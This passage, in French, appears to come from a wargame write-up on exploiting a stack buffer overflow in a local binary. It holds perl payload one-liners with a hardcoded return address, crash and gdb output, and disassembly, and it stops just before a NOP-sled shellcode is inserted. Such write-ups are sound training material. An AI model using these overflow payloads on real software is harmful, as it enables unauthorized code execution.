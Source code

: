 	$ perl -e 'print "USERNAME=" . "A"x128 . "'$uid'" . "'$pid'" . "'$fileptr'" . "B"x28 . "\x47\xfd\xff\xbf" . "C"x4' > "$binpath"  && ./prog "$binpath"
	Segmentation fault (core dumped)
	[...]
	Core was generated by `./prog /tmp/prout/foo.bin'.
	Program terminated with signal 11, Segmentation fault.
	#0  0x080486aa in Init (filename=0xbffffb00 "T\377\377\277u\377\377\277~\377\377\277\227\377\377\277\316\377\377\277\327\377\377\277\354\377\377\277") at binary10.c:65
	65      binary10.c: No such file or directory.

Euh? Bon, si on regarde le code assembleur, on remarque que l'épilogue de la fonction Init() est différent de l'ordinaire. De même que dans main(), on réserve de la place pour le 'struct Init Init' qui sera retourné par Init() Donc l'espace sur la stack va être écrasé par la copie de l'objet de type 'struct init'... ce qui va écraser tout ce qu'on avait pris soin de construire avec nos petits doigts boudinés. En effet, en sortie de Init(), on a:

   	[...]
   	0x08048699 <+240>:   lea    ebx,[ebp-0xa4]
   	0x0804869f <+246>:   mov    eax,0x22
   	0x080486a4 <+251>:   mov    edi,edx
   	0x080486a6 <+253>:   mov    esi,ebx
   	0x080486a8 <+255>:   mov    ecx,eax
   	0x080486aa <+257>:   rep movs DWORD PTR es:[edi],DWORD PTR ds:[esi]
   	0x080486ac <+259>:   mov    eax,DWORD PTR [ebp+0x8]
   	0x080486af <+262>:   add    esp,0x2ac
   	0x080486b5 <+268>:   pop    ebx
   	0x080486b6 <+269>:   pop    esi
   	0x080486b7 <+270>:   pop    edi
   	0x080486b8 <+271>:   pop    ebp
   	0x080486b9 <+272>:   ret    0x4

On fait encore quelques tests, en mettant que des \x47\xfd\xff\xbf a la place des "B", pour valider cette hypothèse:

	$ perl -e 'print "USERNAME=" . "A"x128 . "'$uid'" . "'$pid'" . "'$fileptr'" . "\x47\xfd\xff\xbf"x8 . "C"x4' > "$binpath"  && ./prog "$binpath"
	Illegal instruction (core dumped)

Bon! Inspectons ça un peu mieux: on met un breakpoint juste avant le `ret' de la fonction Init(), puis on exécute une instruction:

	gdb$ ni
	0xbffffd47 in ?? ()
	
	gdb$ x/16x 0xbffffd47
	0xbffffd47:     0x41414141      0x41414141      0x41414141      0x41414141
	0xbffffd57:     0x41414141      0x41414141      0x41414141      0x41414141
	0xbffffd67:     0x41414141      0x41414141      0x41414141      0x41414141
	0xbffffd77:     0x41414141      0x41414141      0x41414141      0x41414141

Hop, direct dans le buffer... Du coup, l'idée est que plutôt d'utiliser une variable d'environnement à l'adresse de laquelle on souhaite sauter, on va directement insérer notre shellcode dans le buffer init.username qu'on remplit en lisant le fichier. Comme le buffer fait 128 bytes et que le shellcode fait 25 bytes, on préfixe avec 103 NOP (0x90), et on termine avec ce qu'on souhaite faire exécuter:
